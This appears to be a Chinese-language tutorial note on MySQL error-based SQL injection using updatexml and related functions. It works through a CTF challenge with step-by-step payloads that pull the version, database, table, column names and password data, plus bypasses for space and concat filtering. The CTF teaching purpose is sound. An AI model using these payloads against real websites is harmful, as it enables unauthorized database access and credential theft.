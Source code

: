 ```yaml
---
title: 报错注入
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - SQL
description: sql注入--报错注入
abbrlink: 1189e02e
tags:
---
```


# 报错注入

当加入```'```发现有开启报错，但是union等被过滤时候，考虑报错注入

## 常用函数
```sql
updatexml()，extractvalue()，floor() ,exp() 
```

### 报错原理简述
> （1）updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误
例如： ```updatexml(1,concat(0x7e,version(),0x7e),1)```，由于0x7e是~，利用concat()函数，构造不符合xpath语法格式的字符串，从而产生报错。

> ```concat()```被过滤时候，可以使用```make_set()```函数
```sql
1 and updatexml(1,make_set(3,'~', (user()) ),1)#
```

## 例题

> 来自buuctf上面的[极客大挑战 2019]HardSQL

这题有开启报错信息，利用```()```绕过空格的过滤，利用```updatexml()```函数进行报错注入

查询版本号
```sql
1'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23
```
查询数据库名
```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23
```
查询表名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
```
查询字段名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
```
查询数据
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat('~',password))from(H4rDsq1)),0x7e),1))%23
```

**注意：因为extractvalue和updatexml只显示32位字符，使用left和right配合进行查询**
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,30),30))))from(H4rDsq1)),0x7e),1))%23
```
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,50),30))))from(H4rDsq1)),0x7e),1))%23
```

参考来自：[https://blog.csdn.net/weixin_43818995/article/details/104338002](https://blog.csdn.net/weixin_43818995/article/details/104338002)




